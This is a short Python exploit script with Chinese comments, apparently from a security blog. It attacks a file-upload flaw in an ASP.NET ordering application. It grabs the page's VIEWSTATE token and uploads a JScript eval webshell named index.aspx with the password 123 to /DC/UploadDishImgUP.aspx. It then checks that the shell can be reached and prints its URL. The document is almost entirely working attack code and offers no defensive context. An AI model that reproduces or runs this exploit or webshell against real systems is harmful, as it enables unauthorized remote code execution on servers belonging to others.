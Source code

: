 整体代码：

```code
import requests
import sys
import re

# 获取CSRF的值
csrf = '<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="(.*?)" />'

# 上传文件必须的头部，从上图的数据包提取
headers = {"Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryQY7B9hyYl0c8HCTJ"}

# 上传文件的数据包
post_data = '''
------WebKitFormBoundaryQY7B9hyYl0c8HCTJ
Content-Disposition: form-data; name="__VIEWSTATE"

{}
------WebKitFormBoundaryQY7B9hyYl0c8HCTJ
Content-Disposition: form-data; name="__VIEWSTATEENCRYPTED"


------WebKitFormBoundaryQY7B9hyYl0c8HCTJ
Content-Disposition: form-data; name="btnOK"


------WebKitFormBoundaryQY7B9hyYl0c8HCTJ
Content-Disposition: form-data; name="FileUpload1"; filename="index.aspx"
Content-Type: application/octet-stream

<%@ Page Language="Jscript"%><%Response.Write(eval(Request.Item["123"],"unsafe"));%>
------WebKitFormBoundaryQY7B9hyYl0c8HCTJ--
'''

# 从传入的参数获取链接
url = chk_url = sys.argv[1]

# 漏洞链接
payload = '/DC/UploadDishImgUP.aspx?DishCode=quan.png&DishName='
chk_url += payload

content = requests.get(chk_url)
csrf_value = re.findall(csrf, content.text)

# 这里的数据包加上获取的CSRF验证值
content = requests.post(chk_url, headers=headers, data=post_data.format(csrf_value[0]))
# 如果文件上传成功，不会返回弹窗，这里只需要判断alert是否在返回的文件就知道啥哼传的文件是否成功
if 'alert' not in content.text:
    shell = url + '/UploadFile/quan.png.aspx'
    # 验证webshell
    if requests.get(shell).status_code == 200:
        print('Upload success！\nwebshell：{} password：123'.format(shell))
else:
    print('Upload lose！')
```
